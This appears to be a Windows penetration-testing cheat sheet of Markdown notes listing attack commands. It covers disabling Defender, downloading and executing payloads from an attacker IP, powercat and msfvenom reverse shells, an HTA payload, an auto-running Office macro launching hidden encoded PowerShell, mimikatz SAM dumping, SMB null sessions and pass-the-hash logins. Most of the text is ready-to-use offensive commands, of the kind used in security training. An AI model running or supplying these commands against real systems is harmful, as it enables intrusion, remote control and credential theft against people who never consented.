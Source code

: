 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
- C compile to exe in linux `i686-w64-mingw32-gcc adduser.c -o adduser.exe`
  
# Windows file transfers
- Powershell
    -   `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')"`
    -   `iex(iwr http://10.10.10.10/shell.exe)`
- Recieve file with powercat(send file with nc) `powercat -c 10.10.10.10 -p 443 -i file.txt`
- Exe to Hex 
	- `exe2hex -x nc.exe -p nc.cmd` 
	- `powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l- 1;$i+=2){$b[$x]=[byte]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles ]::HexNumber);$x+=1};set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"`


# Windows shells
- Kali has nc.exe at /usr/share/windows-resources/binaries/nc.exe
- C# compile + run
    - `C:\windows\microsoft.net\framework64\v4.0.30319\csc.exe /t:exe /out:C:\windows\temp\rev.exe C:\windows\temp\rev.cs`
- Powershell 
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - [Powershell-OneLinerReverseShell](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)
    - [Environment]::Is64BitProcess
    - `cat shell.ps1 | iconv -t utf-16le | base64 -w 0` encode a powershell command for windows format
    - powershell -ep bypass -noprofile -WindowStyle Hidden -e UYGfxemu...
- Powercat
    - Generate reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe -g`
    - Encoded reverse shell `powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge`
    - Reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe`
    - Bind shell `powercat -l -p 443 -e cmd.exe`
    - Listener `powercat -l -p 443` 
- HTA (mshta.exe http://ip/rev.hta)
```
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- VBS (MS office)
```
Sub AutoOpen() 
	MyMacro
End Sub
Sub Document_Open() 
	MyMacro
End Sub
Sub MyMacro()
	Dim Str As String
	Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
	Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB" 
	Str = Str + "TAH...6A"
CreateObject("Wscript.Shell").Run Str 
End Sub
```
- Msf
    -   Powershell `msfvenom -p cmd/windows/reverse_powershell lhost=10.10.10.10 lport=80`
    -   MSHTA
    	-	msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f hta-psh -o shell.hta   
        -   use exploit/windows/misc/hta_server
        -   mshta.exe hxxp://10.10.65.86:8080/VlHPpQahHBNkkeX.hta  

# Windows privilege escalation
- Tools - [Winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)
- [LOLbas](https://lolbas-project.github.io/)
- whoami
- net user
- User member of which groups `net user USERNAME`
- Get hostname to understand functionality of box `hostname`
- Get system info `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
- Running process `tasklist /SVC`
- Get Process statsus `wmic service where caption="Serviio" get name, caption, state, startmode`
- Start/Stop service `net start Serviio``net stop Serviio`
- Get networking info `ipconfig /all` `route print`
- Networking connections `netstat -ano`
- Firewall
	- current profile for firewall `netsh advfirewall show currentprofile`
	- Firewall rules `netsh advfirewall firewall show rule name=all`
- Scheduled Tasks `schtasks /query /fo LIST /v`
- Installed applications `wmic product get name, version, vendor`
- Security patches `wmic qfe get Caption, Description, HotFixID, InstalledOn`
- Writable files
	- `accesschk.exe -uws "Everyone" "C:\Program Files"`
	- `Get-ChildItem "C:\Program Files" - Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`
- File permissions with Icacls
	- `icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`
	- F M RX R W = Full Modify Read&Execute Read-only Write-only
- Unmounted disks `mountvol`
- Windows Drivers
	- `driverquery /v` searchsploit the driver name
	- `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path`
	- `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`
- Auto elevate `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` `reg queryHKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
- Get intigrity of session(High/Medium/Low in bottom of o/p) `whoami /groups`
- Run as diffrent user `powershell.exe Start-Process cmd.exe -Verb runAs`
- whoami /priv
	- SeShutdownPrivilege = We can restart `shutdown /r /t 0`
	- SeImpersonatePrivilege on Windows 10 and Server 2016/2019 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
 
- Unquoted Service Paths `wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """`
- 
### mimikatz.exe
- `privilege::debug` `token::elevate` 
- Dump SAM `lsadump::sam` 
### SMB
- Netbios (TCP 139 | UDP 137 138)
	- Netbios can give us Hostname, Netbios name, Domain, Network Shares
	- UNC (Universal Naming Convention) paths `\\ServerName\ShareName\file.txt`
- Default administrative shares - `C$` C drive|`admin$` Windows installation|`ipc$` interprocess communication
- Null sessions 
	- `net view IP` `nmblookup -A ip` `smbclient -L //IP -N` `net use \\IP\C$ '' /u: ''` `smbclient //IP/$C -N` 
	- `enum -S IP` `enum -U IP` `enum -P IP`
	- `smbmap -H IP`
### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`
